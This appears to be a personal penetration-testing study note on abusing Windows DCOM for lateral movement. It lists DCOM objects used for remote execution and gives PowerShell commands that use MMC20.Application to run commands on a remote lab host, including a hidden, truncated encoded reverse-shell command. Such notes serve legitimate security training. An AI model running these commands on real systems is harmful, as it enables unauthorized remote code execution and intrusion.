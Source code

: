 public:: true

- The [*Distributed Component Object Model*](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN) (DCOM) extends the [*Component Object Model*](https://learn.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal?redirectedfrom=MSDN) (COM) created for either same-process or cross-process interaction to interaction between **multiple computers over a network**.
- Interaction is done over RPC on port **135/tcp**.
- Local administrator access is required to call the DCOM [Service Control Manager](https://learn.microsoft.com/en-us/windows/win32/services/service-control-manager) *(which is essentially an API)*.
- Lateral Movement
	- DCOM is often exploited to perform lateral movement.
	- A list of DCOM applications can be retrieved via Powershell
	  ```powershell
	  Get-CimInstance Win32_DCOMApplication
	  ```
	- [Cybereason reported](https://www.cybereason.com/blog/dcom-lateral-movement-techniques) a collection of software that can be used to execute command on remote computers via DCOM.
		- [Excel DDE](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)
		- [MMC20.Application](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
		  id:: 65a6b37f-c4d9-4e9a-a25f-45416e4d9c51
		- [ShellWindows](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)
		- ShellBrowserWindow
		- Visio Addon Execution
		- Outlook Execution WIth CreateObject and Shell.Application
		- [Arbitrary Library Load](https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52)
		- Word WLL Add-in
		- [Arbitrary Script Execution](https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-and-dotnettojscript/)
		- Visio ExecuteLine
		- Office Fileless Macro Execution
			- Excel
			- Word
			- PowerPoint
			- Access
		- [Office Macro Execution From Existing Documents](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)
	- Let's see how to use *Microsoft Management Console* ([MMC20.Application](((65a6b37f-c4d9-4e9a-a25f-45416e4d9c51)))) to execute remote commands.
		- First we need access to a domain user which happens to be a local administrator on our remote target *(192.168.50.73)*.
		- We suppose that a valid TGT is loaded in-memory for such user in the computer from where we want to execute the attack.
		- From there we open an elevated powershell prompt
			- The MMC Application Class allows the creation of [*Application Objects*](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/application-object?redirectedfrom=MSDN) which expose the *ExecuteShellCommand* method under the *Document.ActiveView* property
			  ```powershell
			  $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
			  $dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
			  ```
			- or even better run a [[reverse shell]] 
			  ```powershell
			  $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG...AZQAoACkA","7")
			  ```